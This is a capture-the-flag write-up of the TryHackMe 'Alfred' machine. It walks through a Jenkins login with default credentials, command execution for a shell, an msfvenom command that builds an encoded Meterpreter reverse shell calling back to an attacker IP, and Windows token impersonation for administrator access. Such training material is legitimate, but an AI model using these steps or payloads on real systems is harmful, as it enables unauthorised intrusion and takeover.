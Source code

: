 ```yaml
---
layout: post
title: "Alfred Write Up"
categories: [cybersecurity, writeUps, tryHackMe]
---
```


This is a write-up for the machine [Alfred](https://tryhackme.com/room/alfred) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Access](#initial-access)
- [Switching Shells](#switching-shells)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Access

We run the usual nmap scanner and find:

- Port 80 http.
- Port 8080 http.
- Port 3389 rdp.

If we connect to the server in port 80 we can see

![Wayne](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf1.png)

Nothing seems too interesting and a `gobuster` scan doesn't find anything useful.

In port 8080 we have a `jenkins` server.

![jenikins](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf2.png)

We try to log in with the credentials `admin:admin` and got access to the `jenkins` control panel. From here we can move to configure tab, under project options and we find a field to write commands. Using it with this payload we gain a shell on the system.

![build](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf3.png)

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf4.png)

From here we can grab the user flag.

## Switching Shells

Once we are on the system we are going to switch to a `meterpreter` shell to make the privilege escalation easier.

This is the process we follow, we create a reverse shell executable with `msfvenom`, with the command

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.23.211 LPORT=444 -f exe -o metshell.exe
```

Set the handler in metasploit. Use `exploit/multi/handler` and configure the options

![set handler](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf5.png)

We transfer the shell executable created with `msfvenom` to the windows machine and execute it gaining a `meterpreter` shell.

## Privilege Escalation

The technique we are going to use to elevate privileges in the machine is called token impersonation.

First we check the privileges we have in this account using the command `whoami/priv`

![priv](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf6.png)

The `SeDebugPrivileged` and `SeImpersonatePrivileges` are enabled. We use the `incognito` module to exploit the vulnerability. We use the command `use incognito` to load the module and we check the available tokens with `list_tokens -g`

![tokens](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf7.png)

The `BUILTIN\Administrator` token is available, to impersonate it we run

![impersonate](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf8.png)

We have a elevated privileges but, by the way `windows` handles the permissions, using the primary tokens of the process to determine what they can do or cannot do, we need to migrate to a process with the right permissions. The safest process to pick is the `services.exe`. We list the processes and migrate to the one mentioned.

![migrate](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/alfred/alf9.png)

Now we have complete access and can read the root flag.